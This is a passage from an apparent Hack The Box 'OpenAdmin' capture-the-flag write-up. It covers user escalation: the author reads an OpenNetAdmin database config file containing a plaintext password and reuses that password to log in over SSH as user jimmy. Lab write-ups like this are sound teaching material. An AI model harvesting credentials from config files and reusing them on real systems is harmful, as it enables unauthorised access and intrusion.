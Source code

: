 ## Escalating to user jimmy

I see there's two additonal users which I don't have access to right now.

```
$ ls -l /home
total 8
drwxr-x--- 5 jimmy  jimmy  4096 Nov 22 23:15 jimmy
drwxr-x--- 6 joanna joanna 4096 Nov 28 09:37 joanna

$ lslogins
  UID USER            PROC PWD-LOCK PWD-DENY  LAST-LOGIN GECOS
[...]
 1000 jimmy              0                   Jan02/20:50 jimmy
 1001 joanna             0                   Jan02/21:12 ,,,
```

The OpenNetAdmin database credentials are shown in the `/database_settings.inc.php` file.

```
$ cat /opt/ona/www/local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

The `n1nj4W4rri0R!` password works with user `jimmy` to get an SSH shell:

```
root@kali:~/htb/openadmin# ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 

jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```
